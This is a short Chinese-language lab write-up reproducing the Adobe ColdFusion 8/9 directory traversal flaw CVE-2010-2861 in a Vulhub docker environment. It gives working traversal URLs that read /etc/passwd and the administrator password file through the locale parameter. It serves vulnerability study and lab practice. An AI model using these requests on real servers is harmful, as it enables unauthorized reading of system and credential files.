 # Adobe ColdFusion 文件读取漏洞 CVE-2010-2861

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 环境搭建

Vulhub执行如下命令启动Adobe CouldFusion 8.0.1版本服务器：

```
docker-compose up -d
```

环境启动可能需要1~5分钟，启动后，访问`http://your-ip:8500/CFIDE/administrator/enter.cfm`，可以看到初始化页面，输入密码`admin`，开始初始化整个环境。

## 漏洞复现

直接访问`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`

![image-20220221201331662](../Web应用漏洞/images/202202212013778.png)

读取后台管理员密码`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`

![image-20220221201418990](../Web应用漏洞/images/202202212014074.png)



